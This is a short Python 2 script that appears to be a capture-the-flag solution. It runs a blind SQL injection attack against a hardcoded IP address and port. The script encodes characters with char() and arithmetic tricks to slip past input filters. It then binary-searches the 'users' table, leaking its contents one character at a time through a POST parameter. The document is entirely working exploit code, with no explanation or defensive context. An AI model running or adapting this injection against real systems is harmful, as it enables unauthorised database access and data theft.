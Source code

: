 ```python
import requests

def check(s):
  assert 'hacker' not in s
  return '469' in s

def encode_int(x):
  res = []
  for i, c in enumerate(str(x)[::-1]):
    if c != '0':
      res.append('%d*(%s)' % (10 ** i, '+1' * int(c)))
  return '(' + ')+('.join(res) + ')'

def encode(s):
  res = []
  for c in s:
    c = ord(c)
    if any(d in '23459' for d in str(c)):
      res.append(encode_int(c))
    else:
      res.append(str(c))
  return 'char(' + ','.join(res) + ')'

def get_query(res, c, x=None):
  return "--if((select (1, %s, 0, 0) > (select * from (select * from users) x)),8*8*7+8+7+6,8*8*7+6+6+7)" % (encode((res + chr(c)).ljust(100, '~')))

url = 'http://47.52.137.90:20000/'
res = ''

while True:
  high = 0x7e
  low = -1

  while abs(high - low) > 1:
    mid = (high + low) // 2

    c = requests.post(url, data={
      'flag': 'hogefuga',
      'hi': get_query(res, mid)
    })

    if check(c.content):
      high = mid
    else:
      low = mid

  res += chr(high)
  print repr(res)
```
